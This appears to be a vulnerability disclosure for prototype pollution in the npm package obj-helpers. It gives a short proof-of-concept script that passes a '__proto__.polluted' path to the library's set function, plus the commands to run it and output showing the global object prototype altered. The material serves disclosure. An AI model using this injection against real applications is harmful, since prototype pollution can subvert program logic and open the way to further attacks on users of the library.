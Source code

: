 # Description

Prototype Pollution in obj-helpers

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objHelpers = require("obj-helpers")
var obj = {}
console.log("Before : " + {}.polluted);
objHelpers.set(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i obj-helpers # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
